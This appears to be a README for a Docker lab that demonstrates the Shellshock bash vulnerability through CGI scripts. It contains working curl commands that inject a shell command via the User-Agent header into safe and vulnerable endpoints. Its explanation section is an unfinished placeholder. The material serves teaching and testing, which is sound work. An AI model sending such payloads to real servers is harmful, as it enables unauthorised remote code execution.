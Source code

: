 # TITLE OF VULN
## Subtitle / what it does
Shellshock (CVE-2014-6271) is a vulnerability in bash shell and allows code execution when declaring new environment variable.
CGI extensions utilize bash and are available remotely on web server.
As CGIs create environment variables from user-supplied data, malicious HTTP header might cause code execution.

### Clear any existing containers
```
docker kill $(docker ps -q)
```

### Run in docker:
```
cd 2-shellshock
docker-compose up -d
```

### Safe endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/safe.cgi
```

### Vulnerable endpoint:
```
curl -H "User-Agent: () { foo; }; echo; /usr/bin/id" http://[Your IP]:8080/victim.cgi
```


### Explanation
This happens costam

### References and recommended reading
https://en.wikipedia.org/wiki/Common_Gateway_Interface
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf

### Credits:
htps://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/bash/shellshock
